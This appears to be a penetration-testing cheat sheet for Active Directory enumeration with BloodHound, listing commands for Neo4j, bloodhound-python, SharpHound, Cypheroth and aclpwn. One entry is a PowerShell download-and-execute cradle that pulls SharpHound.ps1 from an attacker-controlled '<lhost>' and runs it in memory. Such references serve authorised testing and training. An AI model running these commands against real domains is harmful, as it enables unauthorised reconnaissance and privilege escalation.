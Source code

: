 # bloodhound

% bloodhound, Active directory enumeration

## Neo4j - Start Server
Starts the Neo4j database server, which is used by BloodHound.
#plateform/linux #target/serve #cat/UTILS
https://neo4j.com/docs/

```bash
neo4j start
```

## BloodHound - Start GUI
Launches the BloodHound graphical user interface.
#plateform/linux #target/local #cat/RECON
https://github.com/BloodHoundAD/BloodHound

```bash
bloodhound
```

## BloodHound.py - Collect Data (Basic)
Collects BloodHound data using BloodHound.py with basic authentication.
#plateform/linux #target/remote #port/389 #port/631 #cat/RECON
https://github.com/fox-it/BloodHound.py

```bash
bloodhound-python -d <domain> -u <user> -p <password> -c all
```

## BloodHound.py - Collect Data (Advanced)
Collects BloodHound data using BloodHound.py with specified global catalog and domain controller.
#plateform/linux #target/remote #port/389 #port/631 #cat/RECON
https://github.com/fox-it/BloodHound.py

```bash
bloodhound-python -d <domain> -u <user> -p <password> -gc <global_catalog> -dc <domain_controler> -c all
```

## SharpHound - Collect BloodHound Data
Collects BloodHound data using SharpHound PowerShell module.
#plateform/windows #target/remote #port/389 #port/631 #cat/RECON
https://github.com/BloodHoundAD/SharpHound

```powershell
Import-Module SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -Domain <domain>
```

## SharpHound - Collect BloodHound Data (Download & Execute)
Downloads and executes SharpHound from a remote location to collect BloodHound data.
#plateform/windows #target/remote #port/389 #port/631 #cat/RECON
https://github.com/BloodHoundAD/SharpHound

```powershell
(new-object system.net.webclient).downloadstring('http://<lhost>/SharpHound.ps1') | Invoke-Expression; Invoke-BloodHound -CollectionMethod All -Domain <domain>
```

## Cypheroth - Start
Starts Cypheroth, a tool for running Cypher queries against BloodHound's Neo4j backend.
#plateform/linux #target/local #cat/RECON 

https://github.com/seajaysec/cypheroth

```bash
cypheroth -u <bh_user|neo4j> -p <bh_password|exegol4thewin> -d <domain>
```

## Aclpwn - Dry Run (Computer to Domain)
Performs a dry run of Aclpwn to identify ACL-based privilege escalation paths from a computer to the domain.
#plateform/linux #target/local #cat/RECON 

https://github.com/fox-it/aclpwn.py

```
aclpwn -f <computer_name> -ft computer -d <domain> -dry
```



